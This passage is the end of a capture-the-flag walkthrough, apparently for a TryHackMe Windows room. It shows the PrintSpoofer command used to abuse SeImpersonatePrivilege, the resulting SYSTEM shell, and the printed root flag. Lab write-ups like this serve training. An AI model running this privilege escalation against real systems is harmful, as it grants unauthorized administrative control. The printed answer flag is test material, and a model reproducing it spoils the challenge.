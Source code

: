 `PrintSpoofer64.exe -i -c cmd`

```
c:\inetpub\wwwroot\nt4wrksv>PrintSpoofer64.exe -i -c cmd
PrintSpoofer64.exe -i -c cmd
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

<br>

## Finishing things up

I take a look on the administrators desktop and the final flag is sitting there:

`dir \users\administrator\desktop`

```
C:\Windows\system32>dir \users\administrator\desktop
dir \users\administrator\desktop
 Volume in drive C has no label.
 Volume Serial Number is AC3C-5CB5

 Directory of C:\users\administrator\desktop

07/25/2020  07:24 AM    <DIR>          .
07/25/2020  07:24 AM    <DIR>          ..
07/25/2020  07:25 AM                35 root.txt
               1 File(s)             35 bytes
               2 Dir(s)  20,217,847,808 bytes free
```

And to display the flag:

`type \users\administrator\desktop\root.txt`

```
C:\Windows\system32>type \users\administrator\desktop\root.txt
type \users\administrator\desktop\root.txt
THM{1fk5kf469devly1gl320zafgl345pv}
```

<br>

And with that we've completed this CTF:

<br>

![](/images/relevant4.png)
